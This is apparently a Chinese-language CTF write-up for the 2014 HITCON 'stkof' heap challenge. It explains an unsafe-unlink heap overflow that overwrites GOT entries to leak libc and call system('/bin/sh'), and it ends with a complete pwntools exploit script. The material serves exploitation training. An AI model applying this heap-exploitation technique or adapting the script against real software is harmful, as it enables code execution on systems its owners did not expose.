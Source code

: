 ```yaml
---
title: 2014 HITCON stkof
date: 2018-10-17 23:25:59
tags: [unlink]
---
```


### 基本信息
```
stkof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped
```
```
Canary                        : Yes
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```
和shellman不同的是，程序中不提供输出的函数，所以需要通过unlink漏洞实现任意地址读写，修改free@got为puts@plt。

### 程序基本功能
程序存在 4 个功能，经过 IDA 分析后可以分析功能如下

- alloc：输入 size，malloc(size)，并在 bss 段(0x602148)记录对应 chunk 的指针
- read_in：输入索引，向分配的内存处写入数据，数据长度可控，这里存在堆溢出的情况
- free：输入索引，free已经分配的内存块
- useless：无用

### 基本思路
根据unsafe unlink原理，malloc三个chunk（第一个0x100的chunk是为什么解决IO缓冲区的问题）。
1. 向第一个chunk写入伪造的数据，并溢出第二个chunk。
```
        payload = p64(0)                  #chunk2
        payload += p64(0x30)
        payload += p64(ptr+0x10-0x18)
        payload += p64(ptr+0x10-0x10)
        payload = payload.ljust(0x30,'a')

        payload += p64(0x30)              #chunk3
        payload += p64(0x90)
        edit(2,payload)
        free(3)   # 0x602150 -> 0x602138

```
  free(3)之后，获得了一个可控的指针0x602150 -> 0x602138

2. 0x602150存储的是malloc(chunk2)返回的指针，所以当向chunk2中写数据时，数据会被写到0x602138处。通过这个指向自己`-0x18`地址的指针，可以修改chunk1返回指针的内容为free的got地址，修改chunk2返回指针的内容为puts的地址。
```
        payload = 'a'*16 + p64(stkof.got['free']) + p64(stkof.got['puts'])
        edit(2,payload)

```
  此时chunk1的指针指向了free@got的地址，那么向其中写入puts@plt的地址的话，程序调用free函数时就会调用puts函数。此时chunk2的指针指向了puts@got的地址，再free(2)的话其实执行的puts(2)，就会打印chunk2返回指针指向的内容，即puts(puts@got)，从而获得了puts的地址。
```
        payload = p64(stkof.plt['puts'])
        edit(1,payload)
        free(2)
        puts_addr = p.recvuntil('\nOK\n',drop=True).ljust(8,'\00')
        puts_addr = u64(puts_addr)

```
3. 接着泄露并计算出system的地址，再次修改chunk1返回指针的内容为system的got地址，free(chunk3)中的内容就可以获得shell

### EXP
```
#!/usr/bin/env python
from pwn import *

p = process('./stkof')
stkof = ELF('./stkof')
libc = ELF('./libc.so.6')

DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = 'debug')

def alloc(size):
	p.sendline('1')
	p.sendline(str(size))
	p.recvuntil('OK\n')

def edit(idx,content):
	p.sendline('2')
	p.sendline(str(idx))
	p.sendline(str(len(content)))
	p.send(content)
	p.recvuntil('OK\n')

def free(idx):
	p.sendline('3')
	p.sendline(str(idx))

ptr = 0x602140

def exp():
	alloc(0x100)
	alloc(0x30)
	alloc(0x80)
	alloc(0x80)
	edit(4,'/bin/sh;'+'c'*(0x80-len('/bin/sh;')))
	payload = p64(0)
	payload += p64(0x30)
	payload += p64(ptr+0x10-0x18)
	payload += p64(ptr+0x10-0x10)
	payload = payload.ljust(0x30,'a')

	payload += p64(0x30)
	payload += p64(0x90)

	edit(2,payload)
	free(3)   # 0x602150 -> 0x602138
	gdb.attach(p)
	raw_input()
	p.recvuntil('OK\n')

	payload = 'a'*16 + p64(stkof.got['free']) + p64(stkof.got['puts'])
	edit(2,payload)
	payload = p64(stkof.plt['puts'])
	edit(1,payload)

	free(2)
	puts_addr = p.recvuntil('\nOK\n',drop=True).ljust(8,'\00')
	puts_addr = u64(puts_addr)
	log.success('puts_addr:' + hex(puts_addr))

	libc_base = puts_addr - libc.symbols['puts']
	system_addr = libc_base + libc.symbols['system']
	binsh_addr = libc_base + next(libc.search('/bin/sh'))
	log.success('system_addr:'+ hex(system_addr))
	log.success('binsh_addr:'+hex(binsh_addr))

	payload = p64(system_addr)
	edit(1,payload)
	free(4)
	p.interactive()

exp()

```
